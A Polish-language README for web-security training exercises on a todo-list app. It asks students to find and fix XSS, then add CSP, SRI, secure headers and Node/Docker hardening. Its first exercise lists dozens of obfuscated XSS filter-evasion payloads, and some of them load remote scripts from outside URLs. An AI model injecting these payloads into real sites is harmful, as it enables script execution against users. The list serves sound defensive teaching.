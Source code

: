 # Ćwiczenia z bezpieczeństwa aplikacji webowych

Aplikacja todo list służy do dodawania, usuwanie zadań do zrobienia i zaznaczaniu jako zrobione, posiada również 
funkcję priorytetyzacji zadań oraz dodawania zadań z linku url

## Ćwiczenie 1

Znajdź podatności XSS w aplikacji i je wyeliminuuj

przykładowe wektory ataku

<div style="color:rgb(''&#0;x:expression(alert(1))"></div> 

```
<img/src=%00 id=confirm(1) onerror=eval(id)

<div id=confirm(1) onmouseover=eval(id)>X</div> 

<span/onmouseover=confirm(1)>X</span>

<svg/contentScriptType=text/vbs><script>Execute(MsgBox(chr(88)&chr(83)&chr(83)))

<iframe/src="javascript:a=[alert&lpar;1&rpar;,confirm&#40;2&#41;,prompt%283%29];eval(a[0]);">

<div/style=content:url(data:image/svg+xml);visibility:visible onmouseover=alert(1)>x</div>

<script>Object.defineProperties(window,{w:{value:{f:function(){return 1}}}});confirm(w.f())</script>

<keygen/onfocus=prompt(1);>

<img/src=`%00` id=confirm(1) onerror=eval(id)

<img/src=`%00` onerror=this.onerror=confirm(1)

<iframe/src="data:text/html,<iframe%09onload=confirm(1);>">

<math><a/xlink:href=javascript:prompt(1)>X

<input/type="image"/value=""`<span/onmouseover='confirm(1)'>X`</span>

<form/action=javascript&#x0003A;eval(setTimeout(confirm(1)))><input/type=submit>

<body/onload=this.onload=document.body.innerHTML=alert&lpar;1&rpar;>

<iframe/onload='javascript&#58;void&#40;1&#41;&quest;void&#40;1&#41;&#58;confirm&#40;1&#41;'>

<object/type="text/x-scriptlet"/data="data:X,&#60script&#62setInterval&lpar;'prompt(1)',10&rpar;&#60/script&#62"></object>

<i<f<r<a<m<e><iframe/onload=confirm(1);></i>f>r>a>m>e>

http://www.<script abc>setTimeout('confirm(1)',1)</script .com>

<style/onload    =    !-alert&#x28;1&#x29;>

<svg id=a /><script language=vbs for=a event=onload>alert 1</script>

<object/data="data&colon;X&comma;&lt;script&gt;alert&#40;1&#41;%3c&sol;script%3e">

<form/action=javascript&#x3A;void(1)&quest;void(1)&colon;alert(1)><input/type='submit'>

<iframe/srcdoc='&lt;iframe&sol;onload&equals;confirm(&sol;&iexcl;&hearts;&xcup;&sol;)&gt;'>

<meta/http-equiv="refresh"/content="0;url=javascript&Tab;:&Tab;void(alert(0))?0:0,0,prompt(0)">

<script src="h&Tab;t&Tab;t&Tab;p&Tab;s&colon;/&Tab;/&Tab;http://dl.dropbox.com/u/13018058/js.js"></script>

<style/onload='javascript&colon;void(0)?void(0)&colon;confirm(1)'>

<svg><style>&#x7B;-o-link-source&#x3A;'<style/onload=confirm(1)>'&#x7D;

<math><solve i.e., x=2+2*2-2/2=? href="data:text/html,<script>prompt(1)</script>">X

<iframe/src="j&Tab;AVASCRIP&NewLine;t:\u0061ler\u0074&#x28;1&#x29;">

<iframe/src="javascript:void(alert(1))?alert(1):confirm(1),prompt(1)">

<embed/src=javascript&colon;\u0061&#x6C;&#101%72t&#x28;1&#x29;>

<img/src='http://i.imgur.com/P8mL8.jpg ' onmouseover={confirm(1)}f()>

<style/&Tab;/onload=;&Tab;this&Tab;.&Tab;onload=confirm(1)>

<embed/src=//goo.gl/nlX0P>

<form><button formaction=javascript:alert(1)>CLICKME 

<script>x='con';s='firm';S='(1)';setTimeout(x+s+S,0);</script>

<img/id="confirm&lpar;1&#x29;"/alt="/"src="/"onerror=eval(id&#x29;>

<iframe/src="data&colon;text&sol;html,<s&Tab;cr&Tab;ip&Tab;t>confirm(1)</script>">
```

## Ćwiczenie 2

Zabezpiecz aplikację pod kątem csp

## Ćwiczenie 3

zabezpiecz aplikację pod kątem SRI

## Ćwiczenie 4

dodaj secure http headers

## Ćwiczenie 5

zabezpiecz server node js

## Ćwiczenie 6

zabezpiecz dokera
